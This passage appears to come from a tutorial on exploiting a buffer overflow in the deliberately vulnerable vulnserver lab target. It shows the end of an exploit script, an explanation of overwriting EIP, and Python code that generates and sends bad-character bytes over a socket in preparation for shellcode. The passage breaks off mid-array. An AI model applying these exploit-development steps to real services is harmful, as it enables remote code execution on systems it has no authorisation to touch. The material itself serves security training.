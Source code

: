 ```python


if __name__ == '__main__':
        inject_shellcode(host, port, shellcode)
```

> Upon executing the script.. we should be able to see that EIP is now with 4 bytes of B's 42424242 and we have overwritten the EIP.

![eip_overwritten](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/eip_overwritten.png)

> Now that EIP has been taken care of, we can generate a malicious shell code to control what commands can be executed.

## Finding Bad Characters

> By finding the bad characters, we need to know what hex characters are possible for us to craft a shellcode.
> If a bad character is included to the shellcode it will not work.

*generate_badchars.py*
```python
#!/usr/bin/python3

import sys

for x in range(1,256):
        sys.stdout.write('\\x' + '{:02x}'.format(x))
```

*shellcode.py*
```python
#!/usr/bin/python

import sys, socket

host = '172.16.10.101'
port = 9999
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e"
"\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55"
"\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c"
"\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83"
"\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a"
"\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1"
"\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8"
"\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
```